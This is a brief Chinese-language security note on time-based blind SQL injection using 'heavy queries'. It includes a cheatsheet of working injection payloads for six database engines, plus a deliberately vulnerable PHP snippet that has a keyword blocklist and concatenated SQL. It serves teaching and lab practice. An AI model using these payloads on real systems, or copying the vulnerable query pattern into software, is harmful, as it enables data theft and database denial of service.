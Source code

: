 ## 为什么需要大负荷查询

当一些造成时间延迟的函数无法在注入中使用的时候，例如 mysql 以下这些函数被过滤的情况：

- sleep
- benchmark
- Get_lock
- 或许有更多

我们可以使用 **heavy query** 进行延时注入，使数据库的查询时间尽量变长。例如让 information_schema 的两个大表做笛卡尔积等语句。注: 使用 benchmark 进行注入原则上也属于 heavy query 的范围内, 但这里不再描述。

## cheatsheet

- PostgreSQL
    - AND 2333=(SELECT COUNT(*) FROM GENERATE_SERIES(1,1000000000))
- MSSQL
    - AND 2333=(SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7)
- Oracle
    - AND 2333=(SELECT COUNT(*) FROM ALL_USERS T1,ALL_USERS T2,ALL_USERS T3,ALL_USERS T4,ALL_USERS T5)
- IBM DB2
    - AND 2333=(SELECT COUNT(*) FROM SYSIBM.SYSTABLES AS T1,SYSIBM.SYSTABLES AS T2,SYSIBM.SYSTABLES AS T3)
- SQLite
    - AND 23333=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(100000000/2))))
- Mysql
    - AND (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.SCHEMATA C);

## 参考

- https://www.anquanke.com/post/id/104319

## 代码

```php
<?php
$id = $_GET['id'];
if(preg_match("/(sleep|benchmark|outfile|dumpfile|load_file|join)/i", $_GET['id']))
{
    die("you bad bad!");
}
mysql_query("SELECT * FROM `articles` WHERE  id = '" . $id . "'");
?>
```

